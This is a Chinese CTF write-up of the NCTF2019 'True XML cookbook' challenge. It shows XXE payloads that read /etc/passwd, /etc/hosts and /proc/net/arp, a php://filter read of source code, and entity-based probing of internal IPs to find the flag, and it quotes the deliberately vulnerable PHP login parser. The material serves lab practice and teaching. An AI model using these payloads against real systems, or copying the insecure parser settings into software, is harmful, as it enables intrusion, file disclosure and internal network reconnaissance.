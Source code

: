 ```yaml
---

title: 日常练习27——XML注入之探测内网

date: 2021-04-30 23:47:01

tags: 练习

categories: test76

---
```

这道题目是还是xml外部实体注入，只不过扩展了xml注入的攻击手段。这次的xml注入是关于内网探测的攻击。  

# [NCTF2019]True XML cookbook  

打开题目，是一个登录界面，题目已经提示是xml了，那么直接抓包看看。  

[![](https://img.imgdb.cn/item/608cd4cad1a9ae528f5a204a.png)](https://img.imgdb.cn/item/608cd4cad1a9ae528f5a204a.png)  

确实是xml的代码格式。可以直接把上一道题目的payload打上去试试。  

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE user [
	 <!ENTITY xxe SYSTEM "file:///etc/passwd">
	 ]>
	<user><username>&xxe;</username><password>&xxe;</password></user>    

发现确实可用，但是不能直接用file://协议读取flag。  

[![](https://img.imgdb.cn/item/608cd584d1a9ae528f608cbf.png)](https://img.imgdb.cn/item/608cd584d1a9ae528f608cbf.png)  

那么我们先读取一下它的源码

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE user [
	 <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=./doLogin.php">
	 ]>
	<user><username>&xxe;</username><password>&xxe;</password></user>    

确实能读到，但是解码后发现没什么用处。  

	<?php
	/**
	* autor: c0ny1
	* date: 2018-2-7
	*/
	
	$USERNAME = 'admin'; //账号
	$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //密码
	$result = null;
	
	libxml_disable_entity_loader(false);
	$xmlfile = file_get_contents('php://input');
	
	try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
	}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
	}
	
	header('Content-Type: text/html; charset=utf-8');
	echo $result;
	?>

所以这道题考察的不是xml注入file://协议读取文件了，而是内网探测。  

我们可以通过xml注入来探测主机ip地址，如下所示：  

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE user [
	 <!ENTITY xxe SYSTEM "file:///etc/hosts">
	 ]>
	<user><username>&xxe;</username><password>&xxe;</password></user>

这里的etc/hosts也是一个很重要的文件，它包含了主机名和ip配置文件。  

[![](https://img.imgdb.cn/item/608cd73dd1a9ae528f6fee31.png)](https://img.imgdb.cn/item/608cd73dd1a9ae528f6fee31.png)  

可以看到主机ip，但是看不到目标主机的ip，这里我们可以读取另一个和ip相关的文件——/proc/net/arp。   

	详细介绍:
	/proc/net/arp

 

    IP address HW type Flags HW address Mask Device

		192.168.1.151 0x1 0x2 00:e0:4c:19:1a:98 * eth0
	
	    192.168.1.1 0x1 0x2 00:14:78:e7:c4:e8 * eth0
     

    每个网络接口的arp表中dev包的统计

    IP address：IP地址（直连）

    HW type：硬件类型

    23=0x17 strip (Metricom Starmode IP)

    01=0x01 ether (Ethernet)

    15=0xf dlci (Frame Relay DLCI)

    Flags：

    HW address：MAC 地址

    Mask：

    Device：所在网络接口

这两个文件都是和主机地址相关的重要文件，我们读取这个文件可以看到目标主机ip地址。   

[![](https://img.imgdb.cn/item/608cd874d1a9ae528f7a996f.png)](https://img.imgdb.cn/item/608cd874d1a9ae528f7a996f.png)  

ip地址为10.0.228.2，我们读取一下这个ip：  

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE user [
	 <!ENTITY xxe SYSTEM "http://10.0.228.2">
	 ]>
	<user><username>&xxe;</username><password>&xxe;</password></user>  

[![](https://img.imgdb.cn/item/608cd905d1a9ae528f7f67d2.png)](https://img.imgdb.cn/item/608cd905d1a9ae528f7f67d2.png)  

发现这个ip读取不了，我们可以一个个的试ip地址，最后发现当ip最后一位为11时，能够成功读取，从而获得flag。  

[![](https://img.imgdb.cn/item/608cda63d1a9ae528f8b9db1.png)](https://img.imgdb.cn/item/608cda63d1a9ae528f8b9db1.png)  

我们也可以用爆破来得到存活的ip地址：   

[![](https://img.imgdb.cn/item/608cdb3ad1a9ae528f93cb33.png)](https://img.imgdb.cn/item/608cdb3ad1a9ae528f93cb33.png)  

# 小结  

其实关于xml外部实体注入还有很多攻击方法，或者说是用法，现在已经学到了读取文件和探测主机，下面会附上其他用法，以后遇到要多做积累。  

[XXE漏洞（XML外部实体注入）](https://blog.csdn.net/whoim_i/article/details/104370532?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522161984410316780262525304%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=161984410316780262525304&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-2-104370532.first_rank_v2_pc_rank_v29&utm_term=xml%E5%A4%96%E9%83%A8%E5%AE%9E%E4%BD%93%E6%B3%A8%E5%85%A5&spm=1018.2226.3001.4449)  
  

